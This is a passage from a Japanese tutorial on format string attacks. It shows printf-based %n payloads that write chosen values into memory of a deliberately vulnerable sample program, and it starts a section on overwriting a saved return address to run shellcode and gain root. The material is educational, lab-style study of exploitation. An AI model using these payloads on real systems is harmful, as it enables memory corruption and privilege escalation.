 \-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x6c\xf9\xff\xbfJUNK\x6d\xf9\xff\xbfJUNK\x6e\xf9\xff\xbfJUNK\x6f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%131x.%n.%220x.%n.%x.%n.%x.%n
[debug]addr of score \= bffff96c
[debug]addr of payload \= bffff930
Score of l鐃緒申UNKm鐃緒申UNKn鐃緒申UNKo鐃緒申ffffb41.1.bffff8a4.4d532038.532050.b7eb116c. 1.. 4b4e554a..4b4e554a..4b4e554a. is \-1078613043(bfb5abcd)!! 
\-\-\-\-\-

　次に0x06を作成しますが、これもまた桁あふれを利用しなくてはなりません。
0x106\=262、0x106\-0xAB\=0x5B\=91ですので、フィールド幅には89を指定します。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x6c\xf9\xff\xbfJUNK\x6d\xf9\xff\xbfJUNK\x6e\xf9\xff\xbfJUNK\x6f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%131x.%n.%220x.%n.%89x.%n.%x.%n
[debug]addr of score \= bffff96c
[debug]addr of payload \= bffff930
Score of l鐃緒申UNKm鐃緒申UNKn鐃緒申UNKo鐃緒申ffffb3f.1.bffff8a4.4d532038.532050.b7eb116c. 1.. 4b4e554a.. 4b4e554a..4b4e554a. is 268872653(1006abcd)!!
\-\-\-\-\-

　最後にx08を作成します。これは一見、0x08の方が大きいので加算のみで作成で
きそうですが、フィールド幅オプションは「最小」表示桁数であることに注意し
てください。つまり、3桁で表示すると指定しても、データが5桁であれば5桁で表
示されます。ゆえに、これもまた桁あふれを利用しなければなりません。x108\-x06
 \= x102 \= 258ですので、256を指定します。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x5c\xf9\xff\xbfJUNK\x5d\xf9\xff\xbfJUNK\x5e\xf9\xff\xbfJUNK\x5f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%131x.%n.%220x.%n.%89x.%n.%256x.%n
[debug]addr of score \= bffff95c
[debug]addr of payload \= bffff920
Score of \鐃緒申UNK]鐃緒申UNK^鐃緒申UNK_鐃緒申ffffb3c.1.bffff894.4d532038.532050.b7eb116c. 1.. 4b4e554a.. 4b4e554a.. 4b4e554a. is 134654925(806abcd)!! 
\-\-\-\-\-

　以上のように、0x0806abcdを作成することができました。これでどのような値
でも任意のメモリに書き込むことができるようになったわけです。その記念（？）
にroot権限の奪取を実証してみましょう。


### 0x05 root権限奪取の実証

　お気づきの方もいらっしゃるでしょうが、今回のサンプルコードにはシェルコ
ードが格納された配列が備わっています。通常、まともなプログラムにはこのよ
うなあからさまな脆弱性はありません。シェルコードはデバッグ情報からbffff9
20番地に存在していることが確認できます。また、main関数のSEIPの場所はbfff
f96c番地に存在しています。つまり、bffff96c番地の中身をbffff920に書き換え
ることができれば、main関数の終了時にpayload配列の先頭に処理が移り、シェル
コードが起動します。

●まずはscoreで試してみよう

　いきなりbffff96c番地の値を書き換えるのはあまりおすすめできません。とい
いますのも、bffff96c番地は出力されないので、本当にうまく0xbffff920が生成
できているか確認がとれないためです。ですので、はじめは出力されるscore変数
に0xbffff920を作ってみます。

